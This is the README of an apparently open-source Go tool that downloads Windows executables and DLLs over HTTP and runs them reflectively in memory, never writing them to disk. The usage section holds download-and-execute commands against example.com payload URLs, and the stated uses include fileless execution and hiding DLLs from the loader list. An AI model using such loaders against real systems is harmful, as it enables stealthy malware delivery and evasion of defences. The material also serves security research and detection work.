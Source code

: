# go http memexec
[![Go CI](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml/badge.svg)](https://github.com/carved4/pure-go-http-memexec/actions/workflows/go.yml)

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk. Supports both executables and DLLs.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **DLL Support**: Can load DLLs in memory and call exported functions
- **Simple API**: Single command to download and execute payloads

[find binject debug here](https://github.com/Binject/debug)
## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. For EXEs: Executes the payload by jumping to its entry point
7. For DLLs: Calls DllMain with DLL_PROCESS_ATTACH and lets you call exported functions

## Usage

```bash
# Basic usage with default URL (EXE mode)
./go-http-memexec

# Specify a custom download URL (EXE mode)
./go-http-memexec https://example.com/payload.exe

# Load a DLL into memory
./go-http-memexec -dll https://example.com/payload.dll

# Load a DLL and call an exported function by name
./go-http-memexec -dll -proc=RunPayload https://example.com/payload.dll

# Load a DLL and call an exported function by ordinal
./go-http-memexec -dll -ordinal=5 https://example.com/payload.dll
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution
- Loading DLLs without registering them in the PEB loader list

## Technical Details

The project is built entirely in Go:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing using the Binject/debug/pe package
- Properly handles relocations, import resolution, and TLS callbacks
- Sets appropriate memory protections for PE sections
- For EXEs: Executes code directly from memory with no disk I/O
- For DLLs: Maps the DLL into memory, calls DllMain, and allows calling exported functions

## Build Instructions

```bash
# Get dependencies
go mod tidy

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## DLL Loading API

The package provides the following functions for DLL handling:

```go
// Load a DLL into memory
handle, err := runpe.LoadDLLInMemory(dllBytes)

// Get address of an exported function by name
procAddr, err := runpe.GetProcAddressFromMemoryDLL(handle, "ExportedFunctionName")

// Get address of an exported function by ordinal
procAddr, err := runpe.GetProcAddressByOrdinalFromMemoryDLL(handle, 5) // Ordinal 5

// Call the function
syscall.Syscall(procAddr, numArgs, arg1, arg2, arg3)

// Free the DLL when done
err = runpe.FreeDLLFromMemory(handle, 0)
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go
- The DLL loading functionality allows more flexible in-memory execution without process hollowing

## Demo Usage of tests (payloads pulled down in this example write a benign indicator of success as a .txt to a temp dir)
https://github.com/user-attachments/assets/fbf58f99-fc74-41af-a96a-5ea01bc0c2aa

## License

 [License: BSD-3-Clause](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations.



